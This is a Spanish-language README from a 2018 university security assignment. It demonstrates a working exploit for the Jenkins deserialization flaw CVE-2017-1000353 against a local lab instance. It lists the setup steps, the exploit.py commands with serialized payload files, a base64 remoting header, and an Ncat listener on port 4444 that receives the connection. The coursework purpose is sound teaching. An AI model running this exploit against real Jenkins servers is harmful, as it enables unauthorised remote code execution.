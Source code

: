 # Seguridad informatica - UTN

## Trabajo práctico 2° Cuatrimestre 2018 - Grupo 2

## Integrantes

- Alejandro Gonzalez
- Facundo Lavagnino
- Tomás Altrui

# Exploit para CVE-2017-1000353 - Jenkins

## Herramientas necesarias

- Java JDK (Debe ser 8 o menos, https://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)
- Ncat
- Python 3

## Preparación

 1. Clonar el repositorio (e ingresar en el):
 
    ```$ git clone https://github.com/AltTomas/siutn-tp-grupo-2-2018.git && cd siutn-tp-grupo-2-2018```

 2. Iniciar Jenkins:
    - Primero debemos asegurarnos que la versión de Java sea la correcta:
      ```
      $ java -version
        java version "1.8.0_144"
        Java(TM) SE Runtime Environment (build 1.8.0_144-b01)
        Java HotSpot(TM) 64-Bit Server VM (build 25.144-b01, mixed mode)
      ```
    - En caso que no, descargamos el JDK 8 del link provisto y ejecutamos:
    
      ```export JAVA_HOME=`/usr/libexec/java_home -v 1.8` ```
    
    - Luego de tener correctamente seteado el JDK de Java, ejecutamos:
    
      ```$ java -jar jenkins_2.45.war```

3. Ingresar a ```localhost:8080/cli o 127.0.0.1:8080/cli``` para asegurarse que inició correctamente (Solo ingresar la clave que pide al iniciar, no es necesario configurar plugins)

4. Iniciar una sesión de Ncat para escuchar en el puerto 4444:

    ``` Windows: ncat -v -l -p 4444```

    ``` OSX/Linux: netcat -v -l -p 4444```

## Ejecución del exploit y explicación

Para ejecutar el exploit basta con el siguiente comando:

    ```Windows: python exploit.py http://127.0.0.1:8080/cli java_serialization_data_win.bin```

    ```OSX/Linux: python exploit.py http://127.0.0.1:8080/cli java_serialization_data_mac_linux.bin```

Este script de Python inicia una sesión con el CLI de Jenkins realizando un POST al CLI en modo "download":
```
download - Starting new HTTP connection (1): 127.0.0.1:8080
download - http://127.0.0.1:8080 "POST /cli HTTP/1.1" 200 None
```

Luego realiza un "upload" con el payload que contiene como head el objeto serializado en base 64 que especifica la funcionalidad del cliente

```'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='```

y el objeto de serialización de Java que contiene nuestro código a ejecutar, que en este caso es: ```ncat -v -l -p 4444```

En caso que nuestro exploit se haya ejecutado de manera satisfactoria, deberíamos ver en la consola que levantamos nuestra sesión de Ncat un mensaje de conexión:

```
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:57496.
```
